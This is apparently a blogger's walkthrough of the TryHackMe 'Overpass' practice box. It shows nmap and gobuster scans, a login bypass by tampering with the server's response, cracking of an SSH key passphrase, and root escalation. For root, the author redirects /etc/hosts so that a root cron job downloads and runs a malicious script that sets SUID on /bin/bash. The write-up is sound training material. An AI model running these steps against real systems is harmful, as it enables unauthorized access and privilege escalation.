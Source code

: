 Recently, I decided to give the Overpass box a try on TryHackMe since it was on my bucketlist for a while. This is my writeup for the particular box.
I started my testing with a simple nmap scan using:
`nmap -sC -sV -oN nmapscan.txt 10.10.38.213 -v`
Here is the output of the nmap scan:
```
# Nmap 7.91 scan initiated Fri Apr 16 10:45:44 2021 as: nmap -sC -sV -oN /root/CTF/TryHackMe/Overpass/nmapscan.txt -vvv 10.10.38.213
Nmap scan report for 10.10.38.213
Host is up, received reset ttl 60 (0.18s latency).
Scanned at 2021-04-16 10:45:45 EDT for 21s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack ttl 60 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 16 10:46:06 2021 -- 1 IP address (1 host up) scanned in 21.95 seconds
```
The box looked relatively simple with port 22 open for ssh and port 80 open for HTTP traffic. I decided to enumerate the website running on port 80. I left gobuster running on the background busting through all the sub-directories while I manually looked around the website. For gobsuter I used:
`gobuster dir -u http://10.10.38.213/ -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.html,.php,.js`
The output for the above command was:
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.38.213/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html,php,js
[+] Timeout:                 10s
===============================================================
2021/04/16 10:45:21 Starting gobuster in directory enumeration mode
===============================================================

/downloads            (Status: 301) [Size: 0] [--> downloads/]

/img                  (Status: 301) [Size: 0] [--> img/]      

/index.html           (Status: 301) [Size: 0] [--> ./]        

/login.js             (Status: 200) [Size: 1779]              

/main.js              (Status: 200) [Size: 28]                

/aboutus              (Status: 301) [Size: 0] [--> aboutus/]  

/admin                (Status: 301) [Size: 42] [--> /admin/]  

/admin.html           (Status: 200) [Size: 1525]              

/css                  (Status: 301) [Size: 0] [--> css/]      

/404.html             (Status: 200) [Size: 782]               

/cookie.js            (Status: 200) [Size: 1502]              

[!] Keyboard interrupt detected, terminating.
===============================================================
2021/04/16 10:46:14 Finished
===============================================================
```
What particularly seemed interesting from the gobsuter results were `login.js` and the admin login panel at `/admin`. Regardless, I went on to the website and started looking around manually. It looked something like this:

![home page](images/home.png) 

The about page had some interesting names but nothing more than that: 

![about page](images/about.png)

I moved on to the downloads section which had some interesting stuff going on with it:

![download page](images/downloads.png)

The source code for the binary seemed awfully interesting but on manual review, nothing seemed off about it except the fact that it was using ROT47 in the name of military grade encryption LOL.
Since nothing seemed off uptil now, I went on to the more interesting parts namely the `login.js` file. On a closer inspection I found a vulnerable function.

![login.js](images/login.png)

Look at:
```
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
We can bypass the `if` check easily by using an HTTP proxy like `BurpSuite`. So, naturally I opened up BurpSuite and intercepted the request for the login on `/admin`, then I had to intercept the response by setting capture response to request to true.

![capture response](images/burp.png)

Now the fun begins, simply removing the `Incorrect Credentials` would bypass the check in the login function above. And that is exactly what I did.

![incorrect credentials](images/inc%20cred.png)
![no credential](images/no%20cred.png)

I refreshed the page after this and I had successfully bypassed the login. The new page presented me with an RSA private key.

![RSA Key](images/RSA.png)

I copied the key and saved it in a file. I ran `chmod 600` on the file to give it the proper permissions. Now I had to crack the passphrase for the key. I achieved this buy using `ssh2john` and `johntheripper`. First I ran `ssh2john RSA > johnrsa` and then I ran `john --wordlist=/usr/share/wordlists/rockyou.txt johnrsa`. The cracked passphrase turned out to be `james13`, and with this credential I was successfully able to connect to the box by running `ssh -i RSA james@10.10.38.213`. 

![user shell via ssh](images/user%20shell.png)

SSH gave me the initial user shell but the real fun began with privilege escalation. Manually looking around seemed redundant at first glance, so I grabbed a copy of `linpeas.sh` and served it to the box using a `python http.server`.

![http server](images/http.png) 
![linpeas](images/linpeas.png)

Upon running `linpeas.sh` a peculiar cron job came under my attention. 

![cron job](images/cron.png)

This job was running every mintue with root privileges, it was basically downloading a file present in the given path `overpass.thm/downloads/src/buildscript.sh` and piping it to bash. The cherry on top was the file used to resolve a particular ip to `overpass.thm` namely the `/etc/hosts` file was writeable by the user according to linpeas.sh.

![/etc/hosts](images/etc.png)

So I opened up the `hosts` file and made it so that `overpass.thm` resolved to my `tun0` ip (openvpn ip).

![edit](images/edit.png)

Now I went into the directory where I had the python http server running and recreated the path in the job namely `/downloads/src`. In there I made my own malicious `buildscript.sh` with the following code:
```
#!/bin/bash
chmod +s /bin/bash
```
The idea here was to set the SUID bit for /bin/bash as the `root` user so anybody with an user account could run `/bin/bash` with elevated root privileges. After a one minute wait, the job ran as expected and my malicious script was run by the `root` user. Finally, a simple `/bin/bash -p` gave me access to a root shell and I had officially rooted the box.

![root](images/root%20shell.png)
